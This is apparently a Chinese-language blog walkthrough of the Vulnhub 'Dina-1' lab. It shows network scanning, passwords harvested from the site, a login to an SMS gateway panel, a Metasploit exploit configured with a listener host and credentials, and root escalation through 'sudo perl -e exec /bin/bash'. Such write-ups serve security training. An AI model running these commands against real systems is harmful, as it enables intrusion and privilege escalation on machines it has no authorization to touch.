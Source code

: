 ```yaml
---
layout: post
title: Dina-1
subtitle: Dina-1
date: 2025-07-08 10:55
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: off
---
```

主机发现

```shell
sudo arp-scan -l
```

![image.png300](https://img.ghostliner.top/lLgUbT.png)

```shell
nmap -T4 -A -p- 192.168.163.133
```

![image.png300](https://img.ghostliner.top/A2HyBe.png)

只有80端口，访问网站，目录扫描，扫描到`robots.txt` secure目录
![image.png300](https://img.ghostliner.top/Lsk2KW.png)

`/nothing`  发现密码 `my secret pass freedom password helloworld! diana iloveroot`
![image.png300](https://img.ghostliner.top/ppisSE.png)

下载 <http://192.168.163.133/secure/backup.zip>

使用密码 `freedom` 成功解压
![image.png300](https://img.ghostliner.top/iQNEDt.png)

访问 `/SecreTSMSgatwayLogin` 登陆用户名：touhid 密码：diana

浏览网站发现`send from file`页面可以上传文件，上传木马显示成功，但未找到

```shell
# 扫描网站框架
whatweb -v http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/BuPbjv.png)

msf搜索相关漏洞，选择0
![image.png300](https://img.ghostliner.top/TDlxDk.png)

```shell
options
set rhosts 192.168.163.133
set lhost 192.168.163.132
set username touhid
set password diana
set TARGETURI http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/XVCPJ6.png)

```shell
sudo perl -e 'exec "/bin/bash";'
```

![image.png300](https://img.ghostliner.top/RSWciW.png)
